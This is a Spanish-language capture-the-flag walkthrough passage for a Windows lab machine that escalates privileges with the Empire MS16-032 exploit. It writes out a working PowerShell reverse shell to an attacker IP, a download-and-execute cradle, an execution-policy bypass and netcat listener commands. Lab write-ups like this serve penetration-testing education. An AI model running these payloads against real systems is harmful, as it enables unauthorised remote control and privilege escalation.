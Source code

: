 Vamos a descargar con [[wget]] con el comando `wget https://raw.githubusercontent.com/EmpireProject/Empire/refs/heads/master/data/module_source/privesc/Invoke-MS16032.ps1` [El exploit de empire](https://raw.githubusercontent.com/EmpireProject/Empire/refs/heads/master/data/module_source/privesc/Invoke-MS16032.ps1) y al final del exploit vamos a agregar la linea `Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.16.12/rev.ps1')"` para que se descargue y ejecute el archivo que va a enviarnos la [[Reverse shell]]

![[Optimum17.png]]

Ahora vamos a crear el archivo *rev.ps1* que seria lo mismo que el archivo *reverse.ps1* que usamos antes para ganar acceso a la maquina, pero ahora le vamos a cambiar el puerto ya que nos vamos a poner en escucha por el *5000*

```ps1
$client = New-Object System.Net.Sockets.TCPClient('10.10.16.12',5000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Mientras estamos en escucha con [[rlwrap nc -lvnp 443]] con el comando `rlwrap nc -nlvp 5000` y con un server [[python3 -m http.server]] con el comando `python3 -m http.server 80` hosteando todos los archivos

Vamos a ejecutar desde la maquina victima el comando [[Descargar archivos que procesos de 32 bits accedan a version de 64 bits system32]]

```
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe -ep bypass -c "iex (New-Object Net.WebClient).DownloadString('http://10.10.16.12/Invoke-MS16032.ps1')"
```

![[Optimum18.png]]

Ahora vamos a la pestaña que estamos en escucha en el puerto *5000* y ya estamos adentro y podemos catear la flag

![[Optimum19.png]]
